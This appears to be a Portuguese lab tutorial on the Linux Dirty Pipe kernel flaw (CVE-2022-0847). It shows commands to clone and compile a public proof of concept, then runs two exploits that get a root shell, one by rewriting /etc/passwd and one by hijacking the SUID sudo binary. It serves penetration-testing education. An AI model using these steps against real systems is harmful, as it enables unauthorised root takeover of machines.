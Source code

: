 Uma vulnerabilidade no kernel do Linux, chamada [Dirty Pipe](https://dirtypipe.cm4all.com/) ( [CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847) ), permite a gravação não autorizada em arquivos de usuário root no Linux. Todos os kernels da versão `5.8`para `5.17`são afetados e vulneráveis ​​a essa vulnerabilidade.

Essa vulnerabilidade permite que um usuário grave em arquivos arbitrários, desde que tenha acesso de leitura a esses arquivos. 

Esta vulnerabilidade é baseada em pipes. Pipes são um mecanismo de comunicação unidirecional entre processos que são particularmente populares em sistemas Unix. Por exemplo, poderíamos editar o `/etc/passwd`arquivo e remover o prompt de senha para o root. Isso nos permitiria fazer login com o `su`comando sem o prompt de senha.

Para explorar essa vulnerabilidade, precisamos baixar um [PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) e compilá-lo no próprio sistema de destino ou em uma cópia que fizemos.

#### Baixar Dirty Pipe Exploit
```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

Após compilar o código, temos dois exploits diferentes disponíveis. A primeira versão do exploit ( `exploit-1`) modifica o `/etc/passwd`e nos dá um prompt com privilégios de root. Para isso, precisamos verificar a versão do kernel e então executar o exploit.

#### Verificar versão do kernel
```shell-session
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

#### Exploração
```shell-session
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

Com a ajuda da 2ª versão do exploit ( `exploit-2`), podemos executar binários SUID com privilégios de root. No entanto, antes de fazermos isso, precisamos primeiro encontrar esses binários SUID. Para isso, podemos usar o seguinte comando:

#### Encontre binários SUID
```shell-session
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

Então podemos escolher um binário e especificar o caminho completo do binário como um argumento para o exploit e executá-lo.

#### Exploração
```shell-session
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```